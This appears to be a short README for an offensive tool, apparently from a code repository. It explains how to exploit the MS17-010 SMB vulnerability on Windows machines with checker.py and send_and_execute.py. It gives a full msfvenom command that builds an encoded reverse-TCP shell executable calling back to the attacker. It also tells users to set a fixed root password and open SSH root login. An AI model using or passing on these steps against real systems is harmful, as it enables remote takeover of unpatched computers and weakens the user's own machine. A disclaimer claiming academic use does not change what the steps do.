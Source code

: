 # Hack Into Your Heart

**This tool is only use for academic and educational.If someone use this tool causes any loss to others, I will not take any responsibility.**

You must change root password to !ROOTER and open SSH root permissions.

## Use

Offensive Secuirty Login page default account and password is admin:admin

Download the ms17-010.sh to /root and start SSH service.
If the vulnerable VM has the MS17-010 vulnerabilities, you can run checker.py with python2 to confirm target can be exploit.
When checker.py is successful scan the vulnerable VM pipe, run send_and_execute.py with python2 to exploit the vulnerable VM.

If you no have the shell.exe use the msfvenom to spawn one.
```
msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai LHOST=<Your Local IP> LPORT=<Local IP> -f exe -o shell.exe
```

